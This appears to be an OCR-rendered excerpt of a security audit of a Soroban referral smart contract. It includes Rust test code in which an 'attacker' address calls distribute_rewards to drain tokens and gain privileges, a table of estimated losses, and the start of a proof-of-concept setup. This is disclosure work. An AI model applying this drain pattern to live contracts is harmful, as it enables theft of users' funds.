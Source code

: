 ```rust
        invoke: &soroban_sdk::testutils::MockAuthInvoke {
            contract: &contract.address,
            fn_name: "distribute_rewards",
            args: (attacker.clone(), drain_amount).into_val(&env),
            sub_invokes: &[],
        },
    }]);
    contract.distribute_rewards(&attacker, &drain_amount);

    // Verify privilege escalation successful
    assert!(contract.is_user_verified(&attacker));
    assert!(contract.is_user_verified(&attacker_address1));
    let attacker_rewards = contract.get_pending_rewards(&attacker);
    assert!(attacker_rewards > 0);
}
```

**Result:** Test PASSES, confirming privilege escalation vulnerability.

#### Attack Impact
- **Direct Drainage**: 3 × 999,999 = 2,999,997 tokens
- **Admin Commissions**: 3 × 49,999 = 149,997 tokens (5% each)
- **Total Loss**: 3,149,994 tokens
- **Privilege Escalation**: Attacker gains admin-like powers

## 🧪 Proof of Concept (POC)

The following POC code demonstrates all 5 critical vulnerabilities:

```rust
#![cfg(test)]
use super::*;
use crate::types::{MilestoneRequirement, UserLevel};
use soroban_sdk::{testutils::Address as _, Address, Env, String, IntoVal};

#[cfg(test)]
mod test_setup {
    use super::*;

    pub fn setup_contract(e: &Env) -> (ReferralContractClient, Address, Address) {
        let admin = Address::generate(e);
        let token = e.register_stellar_asset_contract_v2(admin.clone());
        let contract_id = e.register(ReferralContract, {});
        let client = ReferralContractClient::new(e, &contract_id);

        e.mock_all_auths();

        // Initialize first
        let _ = client.initialize(&admin, &token.address());

        // Set default reward rates after initialization
        let rates = RewardRates {
            level1: 500, // 5%
            level2: 200, // 2%
            level3: 100, // 1%
            max_reward_per_referral: 1000000,
        };

        client.set_reward_rates(&rates);

        (client, admin, token.address())
    }
}

```
